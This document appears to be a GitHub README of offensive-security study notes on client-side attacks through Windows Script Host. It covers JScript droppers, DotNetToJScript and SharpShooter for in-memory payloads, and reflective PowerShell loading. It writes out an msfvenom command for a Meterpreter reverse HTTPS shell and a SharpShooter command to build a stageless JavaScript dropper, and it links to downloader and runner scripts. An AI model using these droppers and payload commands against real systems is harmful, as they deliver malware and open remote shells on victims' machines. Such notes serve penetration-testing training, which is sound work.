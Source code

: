 ## Basic Dropper in Jscript
Jscript is developed by Microsft that used in Internet Explorer. It can also be executed outside the browser through Windows Script Host(an automation technology for Microsoft Windows operating systems that provides scripting abilities think like batch files, but beefer).
We can use jscript to interact with ActiveX( software framework created by Microsoft back in 1996, it was desiged for content downloaded from a network(IE)) Consider the following code, We invoke **ActiveXObject** and use **WScript.Shell** to interact with the Windows Script Host Shell to execute external application. The file extension should be .js

```
var shell = new ActiveXObject("WScript.Shell")
var res = shell.Run("cmd.exe");
```

Method 1: Let's Create [Jscript payload Dropper](/ClientSideWithWindowsScriptHost/JscriptPayloadDropper.js) to download and execute payload from our wbesite.
Method 2: To Do, Let's make the dropper proxy-aware, research setProxy method, Page 107.

## Mix Jscript and C#
Let's run payload completely from memory by using Win32 APIs. We can't invoke Win32API directly from Jscript. We'll embed a complited C# assembly in the Jscript file and execute it. We will need to use the [DotNetToJScript github code](https://github.com/tyranid/DotNetToJScript), once complie the example source code, we will use [DotNetToJScript.exe](/ClientSideWithWindowsScriptHost/DotNetToJScript.exe) with [NDesk.Options.dll](/ClientSideWithWindowsScriptHost/NDesk.Options.dll) to compile [ExampleAssembly.dll](/ClientSideWithWindowsScriptHost/DotNetToJScript.exe) into an [demo.js](/ClientSideWithWindowsScriptHost/demo.js) jscript.

```
DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o demo.js
```

Now, We can modify the default TestClass.cs to write our [payload dropper](/ClientSideWithWindowsScriptHost/TestClass.cs ) in c# and conver it to jscript using the same DotNetToJScript.exe command.

The above method can also be done by using [SharpShoter](https://github.com/mdsecactivebreach/SharpShooter) framework.

First,Create a raw payload

```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=ip LPORT=443 -f raw -o /var/www/html/shell.txt
```

then invoke SharpShooter.py to compile js code

```
sudo python SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile /var/www/html/shell.txt --output test
```

## Reflection powershell with pre-compiled C# assembly
Let's  fetch the pre-compiled assembly with c# and load it directly into memory using powershell. 
Now we can use the same code to compile a new dll to used in powershell.
- 1.Create a New **Class Libary .NET Framework project**
- 2.use the same ttps and compile the [cs code](/ClientSideWithWindowsScriptHost/Class1.cs) into dll
- 3.create powershell [payload dropper](/ClientSideWithWindowsScriptHost/reflectionRunner.ps1).

